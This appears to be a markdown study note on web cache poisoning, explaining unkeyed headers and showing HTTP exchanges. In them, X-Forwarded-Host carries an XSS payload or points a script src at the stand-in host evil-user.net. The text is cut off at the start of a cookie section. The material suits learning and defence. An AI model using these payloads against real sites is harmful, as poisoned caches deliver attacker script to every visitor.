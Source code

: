 # Web cache poisoning
Attacker changes server's cache so harmful HTTP response is sent to all users.  
Server sets a "cache key" to some response and when request is repeated server returns the same cached response to all subsequent requests of all users.  
WCP is served together with other attacks.  
Firstly, we need to identify "unkeyed" inputs such as headers.  
For auto-detecting such inputs we can use Param miner and "guess headers" function  
After this we need to analyze how server serves unkeyed inputs. If we see that it reflected or used for generating data, it's entrypoint for WCP.  
After this we need to get the response cached.  
In short, websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequent HTTP responses to be cached  
## Exploiting
Simply we can use WCP for XSS delivery  
```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```
Here, the value of the X-Forwarded-Host header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. Crucially for web cache poisoning, the X-Forwarded-Host header is often unkeyed. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload: 
```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```
Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead.  

If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key.   
```
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```
If we see that X-Forwarded-Host is served unkeyed and used in generating script src, we can use payload like `"></script><script>alert()</script>` to poison web cache and send this response to all users.  
## Cookie-handling vulns
One of example is cookies used to display some language:
```
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
```